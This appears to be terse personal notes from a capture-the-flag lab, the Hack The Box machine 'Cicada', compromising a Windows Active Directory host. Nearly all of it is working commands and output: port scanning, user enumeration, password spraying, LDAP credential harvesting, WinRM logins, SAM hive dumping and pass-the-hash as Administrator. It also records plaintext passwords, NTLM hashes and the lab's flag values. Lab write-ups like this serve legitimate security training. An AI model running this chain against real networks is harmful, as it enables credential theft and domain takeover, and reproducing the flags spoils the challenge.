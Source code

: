 Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-10 15:27 EST Nmap scan report for cicada.htb0 (10.10.11.35)
Host is up (0.12s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 59.66 seconds

pass :  Cicada$M6Corpb*@Lp#nZp!8


impacket-lookupsid anonymous@cicada.htb0 

users.txt 
john.smoulder
sarah.dantelia
michael.wrightson 
david.orelious 
emily.oscars 


netexec smb cicada.htb0 -u  $ ( cat users.txt ) -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares

michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8


extracting users 

ldapsearch -H ldap://cicada.htb0 -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b 'dc=cicada,dc=htb' "(objectClass=person)" | grep "sAMAccountName:" 

refreshing passwords 

ldapsearch -H ldap://cicada.htb0 -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b 'dc=cicada,dc=htb' | grep pass 


found random pass 

description: Just in case I forget my password is aRt$Lp#7t*VQ!3

netexec ldap cicada.htb0 -u users.txt -p 'aRt$Lp#7t*VQ!3' -t4 

david.orelious:aRt$Lp#7t*VQ!3

 smbclient //cicada.htb0/DEV -U david.orelious 

Backup_script.ps1  

emily pass : 

emily.oscars:Q!3@Lp#M6b*7t*Vt

check winRM 

nmap -Pn -p5985 10.10.11.35 

Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-10 16:13 EST
Nmap scan report for cicada.htb0 (10.10.11.35)
Host is up (0.098s latency).

PORT     STATE SERVICE
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds

try logging with evil-winrm 

evil-winrm -i cicada.htb0 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'

logged 

user.txt: 05919e52bce5551db78789890b2a1bf7


privillage escallation 

extract the sam and system register 

mimikatz it 

pypykatz register --sam sam system 
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

administrator hash 

evil-winrm -i cicada.htb0 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341 

root.txt:74bda0f2e19cf399e4d1c49b912d1d38


[[machines]]